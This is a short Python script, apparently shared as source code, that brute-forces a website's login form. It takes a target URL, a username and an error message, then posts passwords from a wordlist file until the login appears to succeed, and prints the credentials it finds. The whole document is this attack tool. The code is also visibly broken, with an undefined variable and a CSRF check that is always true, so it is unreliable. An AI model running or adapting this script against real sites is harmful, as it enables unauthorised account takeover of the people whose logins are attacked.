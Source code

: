 import requests
import time
import sys

url = input("Enter Target Url: ")
username = input("Enter Target Username: ")
error = input("Enter Wrong Password Error Message: ")

for c in z:
    sys.stdout.write(c)
    sys.stdout.flush()
    time.sleep(0.02)

try: 
    def bruteCracking(username,url,error):
        count = 0
        for password in passwords:
            password = password.strip()
            count = count + 1
            print("Trying Password: "+ str(count) + ' Time For => ' + password)
            data_dict = {"LogInID": username,"Password":password, "Log In":"submit"}
            response = requests.post(url, data=data_dict)
            if error in str(response.content):
                pass
            elif "CSRF" or "csrf" in str(response.content):
                print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
                exit()
            else:
                print("Username: ---> " + username)
                print("Password: ---> " + password)
                exit()
except:
    print("Some Error Occurred Please Check Your Internet Connection !!")

with open("passwords.txt", "r") as passwords:
    bruteCracking(username,url,error)

print("[!!] password not in list")
